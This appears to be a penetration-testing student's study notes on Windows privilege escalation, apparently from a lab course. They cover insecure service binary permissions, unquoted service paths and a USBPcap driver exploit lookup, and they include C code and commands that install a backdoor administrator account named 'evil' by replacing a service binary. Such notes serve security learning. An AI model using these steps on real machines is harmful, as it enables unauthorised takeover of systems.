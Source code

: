 ```yaml
---
title: Study Notes - 2021/05/08
date: 2021-05-08 21:15:20
tags: [Penetration Testing, Study Notes]
---
```



# Insecure File permission 
system service binary has insecure permission, we can replace the binary, when the system reboot, the malicious binary will be executed with root permission  

## Use powershell to list running servicis 
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```
Service stored in Program Files dir is more prone to have insecure permission 

## Ennumerate the permission of target service
```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

## replace the binary with malicious binary  
```
#include <stdlib.h>
int main ()
{
    int i;
    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
}
```

cross compile it `i686-w64-mingw32-gcc adduser.c -o adduser.exe`  

```
move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
```

## restart the service 
```
C:\Users\student> net stop Serviio
System error 5 has occurred.
Access is denied.
```
## check the start option of the service 
``
C:\Users\student>wmic service where caption="Serviio" get name, caption, state,
startmode
Caption Name StartMode State
Serviio Serviio Auto Running`
``

check if user can reboot the system 
```
C:\Users\student>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ==================================== ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
```
disable means the privilege is not enabled for the running process, in our case whoami

## reboot the machine 
```
shutdown \r \t 0   
```
\r reboot, \t in 0 sec  


## log in with new evil account
```
rdesktop xx.xx.xx.xx -u evil -p `password` -g 1024x768 
```

check if the new user in admin group 
```
net localgroup Administrators
```



# Leveraging Unquoted service path  
can be used in lab 10.11.0.23  -u n00b -p lab

When using file/dir path contain spaces, the developer should make sure it is quoted
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

move adduser.exe "C:\Program Files\My Program\My.exe"
```


# Windows Kernel Vulnerabilities: USBPcap Case Study 
determine the version and architecture
```
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name: Microsoft Windows 7 Professional
OS Version: 6.1.7601 Service Pack 1 Build 7601
System Type: X86-based PC
```

try to find third-party driver vulnerabiliies first  

## enumerate the driver 
```
driverquery /v
```
/v for verbose output  
looking for third-party drivers

## search for exploit 
```
searchsploit USBPcap
```

## check the version of USBPCap
To begin, we will list the contents of the Program Files directory, in search of the USBPcap directory:  
```
cd "C:\Program Files"
dir 
type USBPcap.inf
```

## Compile C/C++ on windows
Use the client machine  
setup PATH environment variable 
```
C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
gcc 41452.c -o exploit.exe
```






